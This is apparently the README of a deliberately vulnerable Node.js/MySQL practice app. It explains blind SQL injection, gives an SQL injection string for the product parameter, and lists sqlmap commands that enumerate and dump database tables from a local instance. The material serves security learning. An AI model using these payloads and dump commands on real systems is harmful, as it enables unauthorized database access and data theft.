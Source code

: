 # Vulnerability testign

## Technologies Used
- [Node.js](https://nodejs.org/en)
- [Express](https://expressjs.com/pt-br/)
- [MySQL](https://www.mysql.com/)
- [Pug](https://pugjs.org/api/getting-started.html)
- [Knex](https://knexjs.org/)

## How to run this project
```bash
# have an instance of mysql running and change '/infra/db/connection.js'
# to access this instance
# and then you can execute the project with:
$ npm install
$ npm run migrate
$ npm run seed
$ npm run dev # can use npm run docker or npm start, also.
# an alternative is:
$ docker-compose up
```

## Scanning for vulnerabilities
Blind SQL injections (blind SQLi) occur when a web application is exposed to SQL injection, but its 
HTTP responses don’t contain the results of the SQL query or any details of database errors.

In a Blind SQL Injection, attackers never see the output of the SQL queries. Still, they may see if 
the application or web page loads normally, and discern how long the SQL server needs to process the 
SQL query that an attacker passed in the user input.[¹](#references)

In the next links, you may find interesting information about vulnerability testing and some tricks 
that will help you to defend your applications against attacks:
- [Boolean-based blind test](https://beaglesecurity.com/blog/vulnerability/boolean-based-blind-sql-injection.html)
- [SQLi Cheat-Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet)

Simple demonstration of the error: `?product=") OR "1"="1" OR "1" like ("`

### SQLMap
[Kali tools - SQLMap](https://www.kali.org/tools/sqlmap/)

#### Install it

```bash
$ sudo apt install sqlmap
```

#### Use it

```bash
# List databases
$ sqlmap -u "http://localhost:8080/products?sortBy=1" --dbs

# List tables
$ sqlmap -u "http://localhost:8080/products?sortBy=1" -D <db_name> --tables

# List columns
$ sqlmap -u "http://localhost:8080/products?sortBy=1" --col
# or for one table:
$ sqlmap -u "http://localhost:8080/products?sortBy=1" -D <db_name> -T <table_name> --col

# Dump table data 
$ sqlmap -u "http://localhost:8080/products?sortBy=1" -D <db_name> -T <table_name> --dump
```

## References
 1. [What is blind sqli?](https://brightsec.com/blog/blind-sql-injection/)

## License
This project is licensed under the MIT License - see the LICENSE file for details.
